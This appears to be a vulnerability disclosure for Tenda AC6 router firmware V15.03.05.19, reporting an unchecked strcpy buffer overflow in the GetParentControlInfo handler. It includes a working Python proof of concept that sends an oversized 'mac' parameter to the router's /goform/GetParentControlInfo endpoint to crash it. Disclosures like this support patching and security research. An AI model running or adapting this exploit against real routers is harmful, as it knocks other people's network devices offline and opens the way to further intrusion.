


## Tenda AC6 V15.03.05.19 firmware has a buffer overflow vulnerability in the GetParentControlInfo function

- Firmware download website:
  [AC6V1.0升级软件](https://www.tenda.com.cn/material/show/102681)

Tenda AC6 V15.03.05.19 firmware has a buffer overflow vulnerability in the `GetParentControlInfo` function. The `strcpy((char *)s + 2, src)` function copies the contents of the `src` string to `(char *)s + 2` without performing a boundary check. Therefore, if the length of `src` exceeds `0x254` bytes, it will cause a buffer overflow and overwrite the memory area after the `s` array, which may cause the program to crash, thus triggering this security vulnerability.





### POC

```py
import requests

def generate_overflow_data():
    # Target buffer size is 0x255 bytes
    padding = b"X" * 0x300
    
    
    # Combine padding and target value
    exploit_data = padding 
    
    return exploit_data

def execute_overflow(url, data):
    # Prepare malicious request parameters
    attack_params = {'mac': data}
    
    # Send the malicious request twice (as in original)
    server_response = requests.get(url, params=attack_params)
    server_response = requests.get(url, params=attack_params)
    
    # Display server response
    print("HTTP Status:", server_response.status_code)
    print("Response Content:", server_response.text)

if __name__ == "__main__":
    # Target endpoint
    target_url = "http://192.168.102.145/goform/GetParentControlInfo"
    
    # Generate overflow payload
    malicious_payload = generate_overflow_data()
    
    # Execute the attack
    execute_overflow(target_url, malicious_payload)
```

